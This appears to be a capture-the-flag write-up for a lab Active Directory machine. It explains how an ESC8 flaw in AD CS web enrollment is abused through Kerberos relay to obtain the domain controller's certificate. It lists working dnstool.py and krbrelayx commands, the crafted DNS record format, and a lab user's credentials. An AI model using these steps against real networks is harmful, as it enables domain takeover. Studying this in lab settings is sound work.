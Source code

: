 There is an ESC8 vulnerability as Web Enrollment is enabled over http.

# Abusing ESC8 to recover the DC certificate

It took me a some time to understand the mechanism of a kerberos relay using an ESC8 vulnerability, as I had never performed a NTLM relay attack before.
Reading this **Synacktiv** [article](https://www.synacktiv.com/publications/relaying-kerberos-over-smb-using-krbrelayx) an this **Hacker Reciped** [resource](https://www.thehacker.recipes/ad/movement/kerberos/relay) helped me a lot.

The objectiv here is to add a malicious DNS records on the DC that points to our attacking machine and coerce the DC to authenticate to it. The DC's request is then relayed to the Certificate Web Enrollment service, which returns the DC's certificate to the attacking machine. By default, any domain user can put add DNS entries inside an Active Directory envinronment.

After several failed attempts, I realized my malicious DNS record was not constructed correctly. The hostname requires a specific format:
`<ADCS_NETBIOS>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA`.
In my context, the record is:
`DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA`

### Adding a fake DNS record

As planned, I now add this DNS record using the `rosie.powell` account with Kerberos authentication.

```bash
# KRB5CCNAME=rosie.powell.ccache dnstool.py -u "cicada.vl\\rosie.powell" -p Cicada123 -r 'DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA' -k -d 10.10.14.169 -a add DC-JPQ225.cicada.vl --tcp -dns-ip 10.129.234.48
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```

### Setting up `krbrelayx`

`krbrelayx` points directly at the ADCS HTTP service endpoint.

```
# krbrelayx.py -t 'http://DC-JPQ225.cicada.vl/certsrv/certfnsh.asp' --adcs -v 'DC-JPQ225$' --template DomainController
[*] Protocol Client SMB loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Running in attack mode to single host
[*] Running in kerberos relay mode because no credentials were specified.
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up DNS Server

[*] Servers started, waiting for connections
```
